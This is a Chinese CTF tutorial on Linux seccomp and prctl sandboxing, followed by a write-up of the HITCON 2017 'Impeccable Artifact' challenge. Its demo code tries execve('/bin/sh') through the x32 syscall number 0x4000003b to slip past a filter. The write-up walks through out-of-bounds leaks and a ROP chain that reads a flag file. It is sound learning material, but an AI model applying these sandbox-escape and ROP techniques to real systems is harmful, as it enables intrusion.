# CTF-PWN-沙箱逃逸 [seccomp 和 prctl-1]


## 什么是 seccomp
它可以禁用某些系统调用，只允许某些系统调用

## #ifndef #define #endif 的使用
#ifndef #define #endif 的作用是防止头文件被重复包含。

>  其实“被重复包含”是指一个头文件在同一个 cpp 文件中被包含了多次。这种错误常常是由于嵌套包含造成的，或者干脆就是包含了多次。比如：a.h 文件中有 #include "c.h"，而 b.cpp 中同时有 #include "a.h" 和 #include "c.h"，这就会导致 c.h 被重复包含。


> 头文件被重复包含的后果：
有些头文件被重复包含只会增加编译器的工作量，不会引起大问题，只是编译效率低一些。但对于大工程来说，编译效率低是件很严重的事。
有些头文件被重复包含会引起错误。比如在头文件中定义了全局变量（虽然不推荐这种做法，但 C 规范确实允许），重复包含会导致重复定义，可能会报错。


```c
    下面给一个#ifndef/#define/#endif的格式：

    #ifndef A_H意思是"if not define a.h"  如果不存在a.h

    接着的语句应该#define A_H 然后相关头文件的内容

    最后一句应该写#endif  A_H 结束过程
```
### 使用格式

```c
#ifndef <标识> 
#define <标识> 
....
#endif <标识> 
```
理论上 <标识> 可以**自由命名**，但每个头文件的这个“标识”应该是唯一的。标识的命名规则一般是：头文件名全部大写，前后加下划线，并把文件名中的“.”也变成下划线。比如 stdio.h 对应的标识就是 STDIO_H

```c
例如要编写头文件sys.h，需要在sys.h文件开头写上:
#ifndef SYS_H
#define SYS_H
....
#endif SYS_H
那么当#include"sys.h"时会判断是否sys.h已经被导入了
如果此时是第一次#include"sys.h"，那么会执行#define SYS_H，此时_SYS_H被定义了
当第二次#include"sys.h"，由于此时已经定义了SYS_H，所以不会执行#define SYS_H以及之后的内容
```

##  seccomp
[seccomp 学习](https://cn-sec.com/archives/1263914.html)

seccomp 的一般使用流程

ctx = seccomp_init(SCMP_ACT_ALLOW);

```c
seccomp_init(uint32_t def_action)
```

> def_action 是过滤器的工作模式
> seccomp_init 是初始化的过滤状态，这里用的是 SCMP_ACT_ALLOW，表示默认允许所有 syscall。如果初始状态是 SCMP_ACT_KILL，则表示默认不允许所有 syscall

seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);

```c
int seccomp_rule_add(scmp_filter_ctx " ctx ", uint32_t " action ",int " syscall ",unsigned int " arg_cnt ", " ... ");
```

>   ctx：初始化时定义的过滤器
> action：规则模式，即匹配到系统调用后执行的操作，与初始化时过滤器的 def_action 类型相同
>syscall：系统调用号，可以用 SCMP_SYS(函数名) 代替具体的调用号
>arg_cnt：需要的参数限制规则数量。seccomp_rule_add 的参数限制接口定义在 seccomp.h.in 中，主要涉及取参数操作 SCMP_AX 和比较操作 scmp_compare。只有这些规则全部满足时，这个 seccomp_rule_add 函数才会执行成功

>如果只需匹配系统调用而不管参数内容：则 arg_cnt=0。如果匹配到系统调用后，还要根据参数内容决定是否执行 action：arg_cnt=N（规则数），后面再跟 N 个参数

seccomp_load(ctx);

> seccomp_load 应用过滤器，加载沙箱规则；如果不调用 seccomp_load，上面的所有过滤器都不会生效


### 无参数条件地禁用系统调用

```c
  seccomp_rule_add(ctx,SCMP_ACT_KILL,SCMP_SYS(execve),0); //add roles into filter
    seccomp_rule_add(ctx,SCMP_ACT_KILL,SCMP_SYS(write),0); //add roles into filter
```
此时 write 和 execve 系统调用被禁止，不管对应函数的参数是什么
### 有参数条件地禁用系统调用
有限制规则时，用下面这些宏来编写对应的规则
```c
/**
 * Specify an argument comparison struct for use in declaring rules
 * @param arg the argument number, starting at 0
 * @param op the comparison operator, e.g. SCMP_CMP_*
 * @param datum_a dependent on comparison
 * @param datum_b dependent on comparison, optional
 */
#define SCMP_CMP(...)		((struct scmp_arg_cmp){__VA_ARGS__})

/**
 * Specify an argument comparison struct for argument 0
 */
#define SCMP_A0(...)		SCMP_CMP(0, __VA_ARGS__)

/**
 * Specify an argument comparison struct for argument 1
 */
#define SCMP_A1(...)		SCMP_CMP(1, __VA_ARGS__)

/**
 * Specify an argument comparison struct for argument 2
 */
#define SCMP_A2(...)		SCMP_CMP(2, __VA_ARGS__)

/**
 * Specify an argument comparison struct for argument 3
 */
#define SCMP_A3(...)		SCMP_CMP(3, __VA_ARGS__)

/**
 * Specify an argument comparison struct for argument 4
 */
#define SCMP_A4(...)		SCMP_CMP(4, __VA_ARGS__)

/**
 * Specify an argument comparison struct for argument 5
 */
#define SCMP_A5(...)		SCMP_CMP(5, __VA_ARGS__)


/**
 * Comparison operators
 */
enum scmp_compare {
	_SCMP_CMP_MIN = 0,
	SCMP_CMP_NE = 1,		/**< not equal */
	SCMP_CMP_LT = 2,		/**< less than */
	SCMP_CMP_LE = 3,		/**< less than or equal */
	SCMP_CMP_EQ = 4,		/**< equal */
	SCMP_CMP_GE = 5,		/**< greater than or equal */
	SCMP_CMP_GT = 6,		/**< greater than */
	SCMP_CMP_MASKED_EQ = 7,		/**< masked equality */
	_SCMP_CMP_MAX,
};

/**
 * Argument datum
 */
typedef uint64_t scmp_datum_t;

/**
 * Argument / Value comparison definition
 */
struct scmp_arg_cmp {
	unsigned int arg;	/**< argument number, starting at 0 */
	enum scmp_compare op;	/**< the comparison op, e.g. SCMP_CMP_* */
	scmp_datum_t datum_a;
	scmp_datum_t datum_b;
};

```

```c
 seccomp_rule_add(ctx,SCMP_ACT_KILL,SCMP_SYS(write),1,SCMP_A0(SCMP_CMP_LE,0x10)); //add roles into filter
    /*read的第0个参数为文件描述符，其小于等于0x10时不能使用*/
 seccomp_rule_add(ctx,SCMP_ACT_KILL,SCMP_SYS(read),2,
                    SCMP_A0(SCMP_CMP_LE,0x10),
                    SCMP_A2(SCMP_CMP_GT,0x8)); //add roles into filter此时read有两天规则，第0个参数需要小于等于0x10，第2个参数需要大于0x8,那么将禁止其使用
seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(write),1,SCMP_A2(SCMP_CMP_EQ,0x10));//第2(从0开始数起)个参数等于0x10 此时如果write函数的第2个参数即写入长度等于0x10将使用失败
```
## prctl

```c
int prctl(int option, unsigned long arg2, unsigned long arg3,
          unsigned long arg4, unsigned long arg5);
```

```c
prctl(PR_SET_NO_NEW_PRIVS,1,0,0,0);
```
当 option 为 PR_SET_NO_NEW_PRIVS(38) 且 arg2 为 1 时，无法获得任何权限，也就是说可以 getshell，但无法获得 root 权限

当 option 为 PR_SET_SECCOMP(22) 时，效果与上面的 seccomp 相同，只是这里的格式略有不同，同样取决于参数 2
**如果 arg2 为 SECCOMP_MODE_STRICT(1)，则只允许 read、write、_exit（不是 exit_group）和 sigreturn 这几个系统调用
如果 arg2 为 SECCOMP_MODE_FILTER(2)，则为过滤模式，对 syscall 的限制通过 arg3 以 BPF（Berkeley Packet Filter）的形式传入，即一个指向 struct sock_fprog 数组的指针**

```c
/*
 *	Try and keep these values and structures similar to BSD, especially
 *	the BPF code definitions which need to match so you can share filters
 */
 
struct sock_filter {	/* Filter block */
	__u16	code;   /* Actual filter code */
	__u8	jt;	/* Jump true 符合jmp条件时跳过的规则数*/
	__u8	jf;	/* Jump false不符合jmp条件时跳过的规则数 */
	__u32	k;      /* Generic multiuse field */
};
struct sock_fprog {	/* Required for SO_ATTACH_FILTER. */
	unsigned short		len;	/* Number of filter blocks */
	struct sock_filter *filter;
};
```

filter 中的格式其实可以分为 BPF_STMT 和 BPF_JUMP 两种。注意 k 在宏定义参数中的位置与在对应 filter 中的位置不同：k 在 filter 中总是第四个，但在 BPF_JUMP(code, k, jt, jf) 中是第二个
```c
#ifndef BPF_STMT
#define BPF_STMT(code, k) { (unsigned short)(code), 0, 0, k }
#endif
#ifndef BPF_JUMP
#define BPF_JUMP(code, k, jt, jf) { (unsigned short)(code), jt, jf, k }
#endif
```
此时两种格式中 code 的值都是由各种宏相或得到的

```c
/* Instruction classes */                    
#define BPF_CLASS(code) ((code) & 0x07)    //指定操作的类别
#define        BPF_LD        0x00               //将值复制到累加器中
#define        BPF_LDX        0x01               //将值加载到索引寄存器中
#define        BPF_ST        0x02               //将累加器中的值存到暂存器
#define        BPF_STX        0x03               //将索引寄存器的值存储在暂存器中
#define        BPF_ALU        0x04               //用索引寄存器或常数作为操作数在累加器上执行算数或逻辑运算
#define        BPF_JMP        0x05               //跳转
#define        BPF_RET        0x06               //返回
#define        BPF_MISC        0x07           // 其他类别
 
/* ld/ldx fields */
#define BPF_SIZE(code)  ((code) & 0x18)
#define        BPF_W        0x00 /* 32-bit */       //字
#define        BPF_H        0x08 /* 16-bit */       //半字
#define        BPF_B        0x10 /*  8-bit */       //字节
/* eBPF        BPF_DW        0x18    64-bit */       //双字
#define BPF_MODE(code)  ((code) & 0xe0)
#define        BPF_IMM        0x00                  //常数 
#define        BPF_ABS        0x20                  //固定偏移量的数据包数据(绝对偏移)
#define        BPF_IND        0x40                  //可变偏移量的数据包数据(相对偏移)
#define        BPF_MEM        0x60                  //暂存器中的一个字
#define        BPF_LEN        0x80                  //数据包长度
#define        BPF_MSH        0xa0
 
/* alu/jmp fields */
#define BPF_OP(code)    ((code) & 0xf0)       //当操作码类型为ALU时，指定具体运算符   
#define        BPF_ADD        0x00        
#define        BPF_SUB        0x10
#define        BPF_MUL        0x20
#define        BPF_DIV        0x30
#define        BPF_OR        0x40
#define        BPF_AND        0x50
#define        BPF_LSH        0x60
#define        BPF_RSH        0x70
#define        BPF_NEG        0x80
#define        BPF_MOD        0x90
#define        BPF_XOR        0xa0
                                               //当操作码是jmp时指定跳转类型
#define        BPF_JA        0x00
#define        BPF_JEQ        0x10
#define        BPF_JGT        0x20
#define        BPF_JGE        0x30
#define        BPF_JSET        0x40
#define BPF_SRC(code)   ((code) & 0x08)
#define        BPF_K        0x00                    //常数
#define        BPF_X        0x08                    //索引寄存器
```
k 也可以是下面这些宏定义
```c
/*
 * All BPF programs must return a 32-bit value.
 * The bottom 16-bits are for optional return data.
 * The upper 16-bits are ordered from least permissive values to most,
 * as a signed value (so 0x8000000 is negative).
 *
 * The ordering ensures that a min_t() over composed return values always
 * selects the least permissive choice.
 */
#define SECCOMP_RET_KILL_PROCESS 0x80000000U /* kill the process */
#define SECCOMP_RET_KILL_THREAD	 0x00000000U /* kill the thread */
#define SECCOMP_RET_KILL	 SECCOMP_RET_KILL_THREAD
#define SECCOMP_RET_TRAP	 0x00030000U /* disallow and force a SIGSYS */
#define SECCOMP_RET_ERRNO	 0x00050000U /* returns an errno */
#define SECCOMP_RET_USER_NOTIF	 0x7fc00000U /* notifies userspace */
#define SECCOMP_RET_TRACE	 0x7ff00000U /* pass to a tracer or disallow */
#define SECCOMP_RET_LOG		 0x7ffc0000U /* allow after logging */
#define SECCOMP_RET_ALLOW	 0x7fff0000U /* allow */

/* Masks for the return value sections. */
#define SECCOMP_RET_ACTION_FULL	0xffff0000U
#define SECCOMP_RET_ACTION	0x7fff0000U
#define SECCOMP_RET_DATA	0x0000ffffU


```
下面的代码定义了编写 seccomp BPF 代码时可能用到的一些内容。从注释可知，在 BPF 代码中我们可以获取系统调用的：系统调用号、处理器架构、指令地址以及 6 个参数的值。具体取哪个由字段 k 决定，它相当于 seccomp_data 结构体中的偏移：k=0 时取的是 nr（系统调用号），k=4 时取的是处理器架构，以此类推。

```c
/**
 * struct seccomp_data - the format the BPF program executes over.
 * @nr: the system call number
 * @arch: indicates system call convention as an AUDIT_ARCH_* value
 *        as defined in <linux/audit.h>.
 * @instruction_pointer: at the time of the system call.
 * @args: up to 6 system call arguments always stored as 64-bit values
 *        regardless of the architecture.
 */
struct seccomp_data {
	int nr;
	__u32 arch;
	__u64 instruction_pointer;
	__u64 args[6];
};
```
### 示例
K 指的是 AUDIT_ARCH_X86_64，定义在 /include/uapi/linux/audit.h 中，该文件为每种架构都定义了一个唯一标识，0xc000003e 就是 AUDIT_ARCH_X86_64 的值。对于整个 seccomp 代码来说，唯一可能需要的外部数据就是 seccomp_data。

```c
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  LD | ABS | Word, R0 = arch
 0001: 0x15 0x00 0x19 0xc000003e  JMP | JEQ after 0x19, R0 == AUDIT_ARCH_X86_64 
 0002: 0x20 0x00 0x00 0x00000000  LD | ABS | Word, R0 = nr
 0003: 0x35 0x00 0x01 0x40000000  JMP | JGE after 0x01, R0 >= 0x40000000 ?
 0004: 0x15 0x00 0x16 0xffffffff  JMP | JEQ after 0x16, R0 == 0xFFFFFFFF ?
 0005: 0x15 0x15 0x00 0x00000000  JMP | JEQ after 0x15, R0 == 0 ?
 0006: 0x15 0x14 0x00 0x00000001  JMP | JEQ after 0x14, R0 == 1 ?
 0007: 0x15 0x13 0x00 0x00000002  JMP | JEQ after 0x13, R0 == 2 ?
 ...
 0026: 0x06 0x00 0x00 0x7fff0000  return SECCOMP_RET_ALLOW
 0027: 0x06 0x00 0x00 0x00000000  return SECCOMP_RET_KILL

```

```c
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  LD | ABS | Word, R0 = arch
```
code 0x20 是 BDF_LD(0x00)|BDF_ABS(0X20)|BOF_W 的结果，即通过固定偏移把一个字的值复制到累加器中，这里 k 对应偏移 4，而 seccomp_data 偏移 4 的位置正好是 arch 字段
```c
 line  CODE  JT   JF      K
=================================
 0001: 0x15 0x00 0x19 0xc000003e  JMP | JEQ after 0x19, R0 == AUDIT_ARCH_X86_64 
```
这里 code 15 是 BPF_JMP(0x05)|BPF_JEQ(0x10) 的结果，是一条相等则跳转的指令：相等则跳到下一条指令，否则跳到下一条指令再加 0x19 的位置，比较的是累加器与 k 的值，累加器的值就是前面取出的 arch

## seccomp_export_bpf
[参考](https://veritas501.github.io/2018_05_05-seccomp%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/#How-to-reverse)
seccomp_export_bpf 函数可以把设置好的 seccomp 以 BPF 的形式导出

```c
//gcc -g simple_syscall_seccomp.c -o simple_syscall_seccomp -lseccomp
#include <unistd.h>
#include <seccomp.h>
#include <linux/seccomp.h>
#include <fcntl.h>
int main(void){

	scmp_filter_ctx ctx;
	ctx = seccomp_init(SCMP_ACT_ALLOW);
	seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(write),1,SCMP_A2(SCMP_CMP_EQ,0x10));
	seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve),0);
	seccomp_load(ctx);

	int fd = open("bpf.out",O_WRONLY);
	seccomp_export_bpf(ctx,fd);
	close(fd);


	char * filename = "/bin/sh";
	char * argv[] = {"/bin/sh",NULL};
	char * envp[] = {NULL};
	write(1,"i will give you a shell\n",24);
	write(1,"1234567812345678",0x10);
	syscall(0x4000003b,filename,argv,envp);//execve
	return 0;
}

```
得到对应的 BPF 二进制文件
```c
$ hexdump bpf.out
0000000 0020 0000 0004 0000 0015 0900 003e c000
0000010 0020 0000 0000 0000 0035 0007 0000 4000
0000020 0015 0006 003b 0000 0015 0400 0001 0000
0000030 0020 0000 0024 0000 0015 0200 0000 0000
0000040 0020 0000 0020 0000 0015 0001 0010 0000
0000050 0006 0000 0000 7fff 0006 0000 0000 0000
0000060 0000 0000 0000 0000 0000 0000 0000 0000
```
改用 prctl

```c
#include <unistd.h>
#include <sys/prctl.h>
#include <linux/filter.h>
#include <linux/seccomp.h>

int main(void){
	
	prctl(PR_SET_NO_NEW_PRIVS,1,0,0,0);
	struct sock_filter sfi[] = {
		{0x20,0x00,0x00,0x00000004},
		{0x15,0x00,0x09,0xc000003e},
		{0x20,0x00,0x00,0x00000000},
		{0x35,0x07,0x00,0x40000000},
		{0x15,0x06,0x00,0x0000003b},
		{0x15,0x00,0x04,0x00000001},
		{0x20,0x00,0x00,0x00000024},
		{0x15,0x00,0x02,0x00000000},
		{0x20,0x00,0x00,0x00000020},
		{0x15,0x01,0x00,0x00000010},
		{0x06,0x00,0x00,0x7fff0000},
		{0x06,0x00,0x00,0x00000000}
	};
	struct sock_fprog sfp = {12,sfi};

	prctl(PR_SET_SECCOMP,SECCOMP_MODE_FILTER,&sfp);
	
	char * filename = "/bin/sh";
	char * argv[] = {"/bin/sh",NULL};
	char * envp[] = {NULL};
	write(1,"i will give you a shell\n",24);
	write(1,"1234567812345678",0x10);
	syscall(0x4000003b,filename,argv,envp);//execve
	return 0;
}
```
成功拦截了函数


# CTF-PWN-沙箱逃逸【seccomp和prctl-2】


## 沙箱逃逸 prctl 题目
##  HITCON CTF 2017 Quals Impeccable Artifact libc 2.24
### flag 文件
此时的 flag 文件，在该文件夹下自己创建一个即可

此时我设置的 flag 为



### 对应的 prctl 函数
第一行禁用特权
第二行根据定义的 BPF 建立沙箱


### 检查
保护全开

查看沙箱规则

首先检查架构，如果不是 ARCH_X86_64 则禁止该系统调用。然后取出系统调用的第二个参数复制给 X，再获取系统调用号。接着判断系统调用号是否与 read、write、fstat、lseek 相同，相同则允许执行。如果都不相同，则判断是否等于 mmap，若是，则判断系统调用的第二个参数是否为奇数，为奇数则禁止，否则允许。如果系统调用号与 mmap 不同，则判断是否等于 mprotect，若是，同样判断第二个参数是否为奇数，奇数禁止，否则允许。如果系统调用号与 mprotect 不同，则判断系统调用号是否等于系统调用的第二个参数，相等则允许该系统调用。否则判断系统调用号是否等于 brk、exit、exit_group，相等则允许，都不相同则禁止该系统调用

### 源码
```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __int64 *v3; // rdx
  const char *v4; // rdi
  int v6; // [rsp+8h] [rbp-658h] BYREF
  int v7; // [rsp+Ch] [rbp-654h] BYREF
  __int64 v8[200]; // [rsp+10h] [rbp-650h] BYREF
  _QWORD v9[2]; // [rsp+650h] [rbp-10h] BYREF

  v9[1] = __readfsqword(0x28u);
  sub_9F0(a1, a2, a3);
  v3 = v8;
  memset(v8, 0, sizeof(v8));
  v4 = (const char *)v9;
  while ( 1 )
  {
    sub_A29(v4, a2, v3);
    v7 = 0;
    _isoc99_scanf("%d", &v6);
    if ( v6 != 1 && v6 != 2 )
      break;
    puts("Idx?");
    _isoc99_scanf("%d", &v7);
    if ( v6 == 1 )
    {
      a2 = (char **)v8[v7];
      v4 = "Here it is: %lld\n";
      printf("Here it is: %lld\n", a2);
    }
    else
    {
      puts("Give me your number:");
      a2 = (char **)&v8[v7];
      v4 = "%lld";
      _isoc99_scanf("%lld", a2);
    }
  }
  return 0LL;
}
```
即：输入一个位置，然后可以向该位置写入数据或显示该位置的数据。输入的位置没有检查，因此可以任意读、任意写
### 思路
注意数组与 var_8 之间还有八个字节，var_8 对应的下标为 201



首先，由于 main 结尾的 ret 指令会返回到 libc_start_main+241 的位置，我们可以用 show 越界显示该地址，对应的数组下标为 203。这样就泄露了 libc 基址，进而得到各种 gadget 的地址

由于我们的目标是读取 flag 文件的内容，所以需要 open 函数，然后 read，再 write。调用 open 系统调用需要 rdx=rax 才能成功
由于要先把文件内容读入内存再通过 write 输出，我们还需要知道内存中的某个位置。此时发现栈上存在一个栈地址，对应数组下标 205。该栈地址减去返回地址得到 0xE0，因此对应的下标为 231


将这样得到的栈地址减去 231*8 即得到数组的起始地址，然后在该位置输入 open 的第一个参数，即 ./flag。注意由于此时函数输入的是整数，输入的字节会以逆序放入内存，而 open 调用时参数是字符串，会从低地址到高地址逐字节转换。所以需要逆序输入 ./flag 的字节，即按 galf/. 的字节输入。

接下来构造 ROP 链即可：首先 open(数组起始地址, 0, 2)，rax=2。这里构造的 rdx 对函数没有作用，只是为了让第二个参数等于 rax 的值，从而能成功调用系统调用。

然后 read(上一步 open 的返回值即 rax 的值, 栈上某区域的地址, 要写入的输入长度)，rax=0。这里需要先把 rax 的值传给 rdi，再将 rax 置为 0。
此时找不到 mov rdi, rax; ret; ，每个 gadget 后面都跟着跳转。我们需要控制跳转目标，使最终能回到 ROP 链。为此需要事先控制 rcx：如果 rcx 中是 pop ; ret gadget 的地址，就仍然可以返回到 mov rdi, rax; call rcx 之后的 gadget（因为 call 会把返回地址压栈，pop 之后 ret 正好落到 mov rdi, rax; call rcx 后面的 gadget 上）。所以需要事先在栈上准备好 pop ; ret gadget 的地址，然后先执行 pop rcx; ret，使 rcx 变为 pop ; ret gadget 的地址。另外两个参数比较容易控制
